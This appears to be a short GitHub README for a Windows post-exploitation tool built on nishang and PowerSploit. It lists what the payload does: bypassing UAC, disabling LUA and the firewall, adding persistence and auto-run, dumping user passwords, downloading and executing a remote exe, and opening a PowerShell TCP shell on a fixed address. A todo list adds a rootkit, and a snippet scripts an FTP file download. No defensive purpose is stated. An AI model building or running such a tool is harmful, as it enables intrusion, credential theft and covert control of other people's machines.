 # win_penetration

powered by [nishang](https://github.com/samratashok/nishang), [PowerSploit](https://github.com/mattifestation/PowerSploit)

### main behaviour
- bypass UAC and extract payload to tmp directory
- run the payload script
    - add powershell root path to env path
	- copy self to temp path and powershell root path
    - turn of the LUA and firewall
	- add persistence
	- register self to auto-run
	- dump login user password
	- fetch info from remote server
	- download and excute exe
	- run PowerShellTcp listenning on 192.168.10.99:8099
	

### todo
- [x] download and excute exe
- [x] fetch attacker's ip&port on remote server
- [ ] rewrite build script by using python lang
- [ ] rookit (Invoke-ReflectivePEInjection)
- [x] auto-run with high authority


### command in common usage
```
# ftp download file

"open xxx.xxx.xxx.xxx`n[username]`n[password]`nbinary`nget [filename]`nbye" | Out-File ftp.txt
ftp -s:ftp.txt
del ftp.txt 


```